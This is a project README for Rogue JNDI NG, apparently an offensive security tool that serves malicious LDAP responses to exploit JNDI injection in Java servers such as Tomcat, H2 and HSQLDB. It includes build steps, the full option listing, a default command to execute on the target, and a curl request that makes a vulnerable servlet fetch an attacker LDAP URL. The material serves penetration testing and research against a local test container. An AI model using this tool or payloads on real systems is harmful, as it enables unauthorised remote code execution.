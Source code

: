 # ROGUE JNDI NG
<img src="resources/logo.webp" alt="A bug sitting on top of a Stormtrooper helmet" height="640" width="640" style="border-radius: 14%; overflow: hidden;">


A modern fork of [Rogue JNDI](https://github.com/artsploit/rogue-jndi), which is "a malicious LDAP server for JNDI injection attacks".

## Description
Rogue JNDI is a great tool in the realm of JNDI exploitation. Our fork adds many features in order to keep it relevant for modern Java environments.

You can read about the full extent of our improvements in our [blog post](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/), but here's a summary:
+ Support for Tomcat version >=10
+ Support for Java version >= 15
+ Users can provide whole script files instead of single OS commands
+ Endpoint for serving generic deserialization payloads
+ New endpoint for exploiting H2 
+ New endpoint for exploiting HSQLDB
+ The usage of [Testcontainers](https://github.com/testcontainers/testcontainers-java) for integration tests (also useful for manual testing, e.g. custom scripting payloads)

> [!NOTE]
> For a general overview, please refer to the original [README](https://github.com/artsploit/rogue-jndi/blob/master/README.md)

## Building
The project uses Maven and can be build with something like:
```shell
mvn clean package
```
This creates a `/target` folder where the `RogueJNDI-X.X.X.jar` file resides. 

## Usage
After building, you can run the following command to see all the options:
```
$ java -jar target/RogueJndi-1.1.jar -h
        __________ ________    ________ ____ ______________      ____._______  ________  .___   _______    ________ 
        \______   \\_____  \  /  _____/|    |   \_   _____/     |    |\      \ \______ \ |   |  \      \  /  _____/ 
         |       _/ /   |   \/   \  ___|    |   /|    __)_      |    |/   |   \ |    |  \|   |  /   |   \/   \  ___ 
         |    |   \/    |    \    \_\  \    |  / |        \ /\__|    /    |    \|    `   \   | /    |    \    \_\  \
         |____|_  /\_______  /\______  /______/ /_______  / \________\____|__  /_______  /___| \____|__  /\______  /
                \/         \/        \/                 \/                   \/        \/              \/        \/


Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command          Command to execute on the target server (default: 
                           touch /usr/local/tomcat/temp/pwn.txt)
    -n, --hostname         Local HTTP server hostname (required for remote 
                           classloading and websphere payloads) (default: 
                           127.0.0.1) 
    -l, --ldapPort         Ldap bind port (default: 1389)
    -p, --httpPort         Http bind port (default: 8000)
    --wsdl                 [websphere1 payload option] WSDL file with XXE 
                           payload (default: /list.wsdl)
    --localjar             [websphere2 payload option] Local jar file to load 
                           (this file should be located on the remote server) 
                           (default: 
                           ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2                   [H2 database init script file (default: /h2)
    --js-payload-path      [Tomcat Nashorn payload option] Path to a .js file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --jshell-payload-path  [Tomcat JShell payload option] Path to a .java file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --groovy-payload-path  [Groovy payload option] Path to a .groovy file 
                           containing the payload served by the Groovy 
                           controller, overwrites the -c option (default: 
                           <empty string>)
    --generic-payload-path [Generic controller option] Path to a file 
                           containing a serialized object served by the 
                           Generic controller, overwrites the -c option 
                           (default: <empty string>)
    --jdbc-url             [HSQLDB controller option] JDBC URL pointing to an 
                           HSQL database (default: <empty string>)
    -h, --help             Show this help
```

## Example usage with custom JShell script
First, start the test container:
```shell
docker run -it -p 8080:8080 ghcr.io/thegebirge/jndi-outcast/tomcat-10-jshell:latest
```

After cloning and building the project, start the server:
```shell
java -jar target/RogueJndi-1.1.jar --jshell-payload-path "/path/to/cloned/repo/rogue-jndi-ng/src/main/resources/payload.java"
```

Now you only need to make a request to the vulnerable servlet inside the container:

```shell
curl "http://localhost:8080/tomcat-10-jshell-1.0-SNAPSHOT/lookup?resource=ldap://host.docker.internal:1389/o=tomcat10-jshell"
```

## Demo
This demo uses our example JShell payload (`/src/main/resources/payload.java`):

https://github.com/user-attachments/assets/ca45c2e8-7aec-4530-bb47-db45306d6938


## Resources and Acknowledgements
+ Michael Stepankin for creating the original Rogue JNDI
+ His article about JNDI exploitation:
  https://www.veracode.com/blog/research/exploiting-jndi-injections-java
+ BlackHat talk of Alvaro Muñoz and Oleksandr Mirosh:
  https://www.youtube.com/watch?v=Y8a5nB-vy78
+ Their BlackHat paper:
  https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
+ Article that includes a rough timeline of JDNI vulnerabilities by Moritz Bechler:
  https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection
+ Our previous article about Java 17 deserialization:
  https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl
